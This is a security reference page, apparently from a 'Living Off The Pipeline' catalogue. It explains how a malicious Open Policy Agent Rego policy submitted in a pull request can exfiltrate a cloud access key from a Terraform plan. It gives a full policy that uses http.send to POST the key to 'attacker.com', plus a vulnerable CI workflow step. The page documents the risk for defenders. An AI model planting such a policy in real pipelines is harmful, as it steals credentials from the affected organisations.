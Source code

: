 ```yaml
---
layout: tool
title: opa
parent: Living Off The Pipeline
nav_order: 38
---
```


## Living Off The Pipeline - opa (Open Policy Agent)

`OPA` (Open Policy Agent) is a policy engine used to enforce rules on structured data. While it is a security tool, its policy language, Rego, contains powerful built-in functions that can be abused, making `opa` a subtle but effective "Living Off The Pipeline" (LOTP) gadget.

### First-Order LOTP Gadget

`OPA` is a **First-Order LOTP Gadget**. It does not provide RCE, but it can be tricked by a malicious policy file into exfiltrating sensitive data over the network.

#### Malicious Primitive: Arbitrary Network Access (Data Exfiltration)

The Rego language is sandboxed and cannot execute shell commands or read arbitrary files. However, it contains a built-in function, `http.send`, which is designed to allow policies to fetch external data. An attacker can abuse this function to make arbitrary HTTP requests to their own server.

While Rego cannot read environment variables directly, CI/CD pipelines often run `opa eval` against input files (e.g., a Terraform plan as JSON, a Kubernetes manifest) that may contain secrets. An attacker can write a malicious Rego policy that reads a secret from the `input` document and uses `http.send` to exfiltrate it.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request containing a malicious Rego policy file.
    ```rego
    # policy.rego
    package main

    # This rule will be evaluated by 'opa eval'
    allow {
        # Malicious Payload:
        # This exfiltrates a secret from the input document to the attacker.
        http.send({
            "method": "POST",
            "url": "http://attacker.com/exfil",
            "body": { "stolen_key": input.provider_configs[0].expressions.access_key.constant_value }
        })

        # The rule can still return true to avoid failing the pipeline step.
        1 == 1
    }
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to validate a Terraform plan that has been converted to JSON.
    ```yaml
    - name: Validate Terraform Plan
      run: |
        terraform show -json . > plan.json
        opa eval --data policy.rego --input plan.json "data.main.allow"
    ```

3.  **Execution:**
    *   The `opa eval` command is executed.
    *   It evaluates the attacker's malicious policy against the `plan.json` file.
    *   The `http.send` function is called, which reads the cloud provider access key from the Terraform plan (`input`) and sends it to the attacker's server.

This attack is dangerous because `opa` is a trusted security tool, and a pipeline operator would not expect a policy evaluation to make outbound network calls. The malicious activity is hidden within the logic of the Rego policy file.

### References

*   [OPA Docs: `http.send` built-in](https://www.openpolicyagent.org/docs/latest/policy-reference/#http)
